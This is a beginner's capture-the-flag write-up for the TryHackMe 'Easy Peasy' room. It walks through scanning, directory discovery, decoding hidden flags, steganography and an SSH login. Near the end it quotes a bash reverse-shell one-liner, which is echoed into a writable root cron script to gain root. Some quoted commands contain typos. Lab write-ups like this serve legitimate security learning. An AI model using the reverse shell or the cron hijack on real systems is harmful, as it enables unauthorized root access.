

TryHackMe | Easy Peasy Write-up
Welcome to my write-up for Easy Peasy on TryHackMe! I'm just getting started with CTFs, so this is less of a tutorial and more of a “let's SUFFER together” kind of deal. But you know what they say:
NO PAIN, NO GAIN!! üó£Ô∏èüî•
Task 1 : Enumeration through Nmap
First, let's run a quick Nmap scan on the target IP.
Only one port was open. But when I submitted that as the answer, it marked me wrong. So let's run a more thorough scan this time...
-sS— TCP SYN scan (stealthy and faster than a full connect scan)-p-— Scan all 65,535 TCP ports-T4— Set timing to level 4 (faster scan, still generally safe)-Pn— Skip host discovery (assume the host is up, useful if ICMP is blocked)
Note: We use the -Pn flag to skip host discovery because we already know the host is up. This avoids unnecessary ping checks, which might be blocked by the target.
The full scan took about 20 minutes, but now we can finally see all the open ports.
The next two questions require a version scan, so let's run nmap again with the '-sV' flag, but this time, only scanning the open ports, which will save us a lot of time.

And we got all the answers to the task 1 easily.
Task 2 : Compromising the machine
Let's start with the web server on port 80 : http://target-ip:80.
There wasn’t much going on. I checked the page source, tried robots.txt, but nothing interesting showed up.
Let's follow the task and use gobuster to find the hidden directory on port 80.
Notes : The standard command is 'gobuster dir -u http://ip:port -w /path/to/wordlist'. But since port 80 is the default for HTTP, we can skip the :port part unless we're scanning a non-standard one (like :65524).
We found a directory named '/hidden' but upon visting the page, we only see a picture of an abandoned room. There is nothing interesting in the page source either.
So we ran gobuster again, this time on the '/hidden' page. This revealed another hidden directory '/whatever' which has something suspecious in the page source: a hidden string that looked like base64.
We can decode it in any online base64 decoder and get the first flag.
Now let's move onto the server on port 65524>>http://target-ip:65524, which looks like a normal Apache 2 page. I checked the robots.txt and there is a hash.
I used MD5 Center Website to reverse the hash and there we have the second flag!
I checked the page source to find any suspecious hints, and there is flag 3 hidden in the paragraphs.
The question hinted that there is a hidden directory, so I used gobuster to check, but no new directory was found, strange....
Let's check the page source again to find any hints. And there is an encoded text between the paragraphs, which is also hinted that it was encoded with ba.....
I tried base64 but it doesn't work. So I find another Online Base X Encoder/Decoder and tried base62. It reveals a message, which could be a hidden directory based on the question.
In /n0th1ng3ls3m4tt3r page, I noticed another hidden hash because....my cursor changed.
You can see the hash in the page source too.
I can't decode it with MD5 decoder...But the question hinted that it's a Gost hash, so I decoded it with Gost decoder from MD5hashing.net.
(I did not notice the "easypeasy.txt" in the room at the time, which would have saved me so much time if used with john the ripper. But anyway, we got the password.)
Checking the page source again, the small image is named "binarycodebixabay.jpg", hmmm "binarycode" huh? suspecious, it could be a binary encoded message. Let's download and inspect it.
Download the image with "wget -http://target-ip:65524//n0th1ng3ls3m4tt3r/binarycodebixabay.jpg".
And ran steghide : "steghide extract -sf binarycodebixabay.jpg" to extract any possible hidden codes using the previous discovered passcode.
We get the username 'boring' and a binary encoded password, let's decode the password in an online decoder.
At the very start, when we scanned the target with nmap, we know that there is a ssh service running on port 6498. Since we now have the username and password, let's login the machine.
ssh username@target-ip -p port
And....we are in! I started with listing out the files and directory with ls command. And there is a single text file so I cat it out.
It is hinted that the flag is rotated. What we have to do is to rotate it back until it makes sense.
And for the final question, we need the root flag. I ran sudo -l to check the permissions of user boring, and it shows that user boring doesn't have permission to run sudo.
Let's check the crontab. It's a common place to find hidden persistence in ctf challenges.
We change the directory to /var/www and cat out the "mysecretcrontab.sh", and it is running as root, and is also writeable by user boring. That's a perfect place to set up a reverse shell. I copied a bash reverse shell : ash -i >& /dev/tcp/your-ip/listener-port 0>&1 and echo it into "mysecretcrontab.sh". I used 8585 for the port.
Quickly open a new terminal and set up the listener with the same port, which soon enough, was connected by the target machine. Now we are root of the target machine.
Start with ls -la/root to check all the directory and files in /root directory. And now we can cat out the .root.txt from the /root directory (ignore my panic typos lmao).
And finally after a long suffering, we got all the flags and answers to all the questions!